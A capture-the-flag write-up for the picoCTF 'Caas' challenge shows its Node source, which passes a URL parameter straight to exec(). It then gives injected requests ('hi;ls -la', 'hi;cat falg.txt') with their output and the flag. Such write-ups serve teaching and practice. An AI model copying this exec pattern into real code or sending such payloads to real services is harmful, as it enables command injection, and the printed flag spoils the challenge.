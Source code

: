 # Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough


# Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough

```
https://caas.mars.picoctf.net/

Cowsay as a Service
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```

```
https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js

const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

```
https://caas.mars.picoctf.net/cowsay/hi;ls%20-la

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 52
drwxr-xr-x  1 root root  4096 Jun 16  2021 .
drwxr-xr-x  1 root root  4096 Jul 14 15:19 ..
-rw-r--r--  1 root root    14 May  5  2021 .dockerignore
-rw-r--r--  1 root root   278 May  5  2021 Dockerfile
-rw-r--r--  1 root root    73 May  5  2021 falg.txt
-rw-r--r--  1 root root   424 Jun 16  2021 index.js
drwxr-xr-x 52 root root  4096 May  5  2021 node_modules
-rw-r--r--  1 root root   135 May  5  2021 package.json
drwxr-xr-x  2 root root  4096 May  5  2021 public
-rw-r--r--  1 root root 14600 May  5  2021 yarn.lock
```

```
https://caas.mars.picoctf.net/cowsay/hi;cat%20falg.txt

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

